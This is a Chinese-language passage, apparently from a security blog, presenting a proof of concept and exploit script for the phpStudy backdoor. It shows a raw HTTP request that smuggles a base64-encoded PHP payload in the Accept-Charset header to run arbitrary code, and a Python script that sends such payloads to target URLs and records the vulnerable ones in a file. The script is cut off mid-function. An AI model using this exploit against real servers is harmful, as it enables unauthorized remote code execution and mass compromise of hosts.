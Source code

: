 ### POC

熟悉原理后可根据执行流程构造执行任意代码的Payload：

```bash
GET /index.php HTTP/1.1
Host: www.baidu.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/76.0.3809.132 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3
Accept-Encoding:gzip,deflate
Accept-Charset:cHJpbnRmKG1kNSgzMzMpKTs=
Content-Length: 0
Accept-Language: zh-CN,zh;q=0.9
Connection: close

```

Payload：`printf(md5(333));`

回显特征：`310dcbbf4cce62f762a2aaa148d556bd`

![7.jpg](media/202009/e6389beea553485fb26c31c9cc25b091.jpg)

图5：Payload回显验证

### exp

```python
#!/usr/bin/env python3
#-*- encoding:utf-8 -*-
# 卿 博客:https://www.cnblogs.com/-qing-/

import base64
import requests
import threading
import queue

print("======Phpstudy Backdoor Exploit============\n")
print("===========By  Qing=================\n")
print("=====Blog：https://www.cnblogs.com/-qing-/==\n")
payload = "echo \"qing\";"
payload = base64.b64encode(payload.encode('utf-8'))
payload = str(payload, 'utf-8')
headers = {
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.100 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3',
    'Accept-Language': 'zh-CN,zh;q=0.9',
    'accept-charset': payload,
    'Accept-Encoding': 'gzip,deflate',
    'Connection': 'close',
}

def write_shell(url,headers):
    try:
        r = requests.get(url=url+'/index.php', headers=headers, verify=False,timeout=30)
        if "qing" in r.text:
            print ('[ + ] BackDoor successful: '+url+'===============[ + ]\n')
            with open('success.txt','a') as f:
                    f.write(url+'\n')
```